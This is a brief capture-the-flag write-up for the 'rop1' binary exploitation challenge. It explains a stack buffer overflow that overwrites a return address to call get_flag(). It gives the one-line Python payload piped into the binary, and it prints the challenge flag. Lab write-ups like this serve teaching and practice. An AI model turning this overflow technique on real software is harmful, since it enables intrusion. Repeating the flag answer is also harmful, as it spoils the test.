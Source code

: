 # rop1

**Category:** Binary Exploitation
**Points:** 120
**Solves:** 374
**Description:**

Go to `/problems/rop1` on the shell server and tell me whats in flag.txt.

[File](rop1)

## Write-up

![screen_0_rop1](screen_0_rop1.png)

![screen_1_rop1](screen_1_rop1.png)

![screen_2_rop1](screen_2_rop1.png)

So we need just rewrtite return addres to get_flag(+8 for saved registers and -8 for text "EasyPWN\x00", I did it for beauty ;))

```
python -c 'print "EasyPWN\x00" + "A"*(64+8-8) + "\x46\x06\x40\x00\x00\x00\x00\x00"' | ./rop1
```

![screen_3_rop1](screen_3_rop1.png)

Flag is: **easyctf{r0ps_and_h0ps}**
